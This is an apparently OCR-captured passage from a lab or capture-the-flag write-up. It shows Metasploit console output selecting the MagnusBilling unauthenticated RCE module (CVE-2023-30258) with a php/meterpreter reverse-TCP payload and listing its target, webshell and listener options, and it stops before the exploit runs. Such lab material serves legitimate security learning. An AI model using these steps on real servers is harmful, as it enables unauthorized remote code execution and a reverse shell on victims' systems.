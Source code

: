 ```http://10.10.113.64/mbilling/README.md```
   2    \_ target: Unix Command                                   .                .          .      .
   3    \_ target: Linux Dropper                                  .                .          .      .


Interact with a module by name or index. For example info 3, use 3 or use exploit/linux/http/magnusbilling_unauth_rce_cve_2023_30258
After interacting with a module you can manually set a TARGET with set TARGET 'Linux Dropper'

msf6 > use 0
[*] Using configured payload php/meterpreter/reverse_tcp

```

```bash
msf6 exploit(linux/http/magnusbilling_unauth_rce_cve_2023_30258) > show options 

Module options (exploit/linux/http/magnusbilling_unauth_rce_cve_2023_30258):

   Name       Current Setting  Required  Description
   ----       ---------------  --------  -----------
   Proxies                     no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS                      yes       The target host(s), see https://docs.metasploit.com/docs/using-metasploit/basics/using-metasploit.ht
                                         ml
   RPORT      80               yes       The target port (TCP)
   SSL        false            no        Negotiate SSL/TLS for outgoing connections
   SSLCert                     no        Path to a custom SSL certificate (default is randomly generated)
   TARGETURI  /mbilling        yes       The MagnusBilling endpoint URL
   URIPATH                     no        The URI to use for this exploit (default is random)
   VHOST                       no        HTTP server virtual host


   When CMDSTAGER::FLAVOR is one of auto,tftp,wget,curl,fetch,lwprequest,psh_invokewebrequest,ftp_http:

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   SRVHOST  0.0.0.0          yes       The local host or network interface to listen on. This must be an address on the local machine or 0.0.
                                       0.0 to listen on all addresses.
   SRVPORT  8080             yes       The local port to listen on.


   When TARGET is 0:

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   WEBSHELL                   no        The name of the webshell with extension. Webshell name will be randomly generated if left unset.


Payload options (php/meterpreter/reverse_tcp):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST                   yes       The listen address (an interface may be specified)
   LPORT  4444             yes       The listen port


Exploit target:
```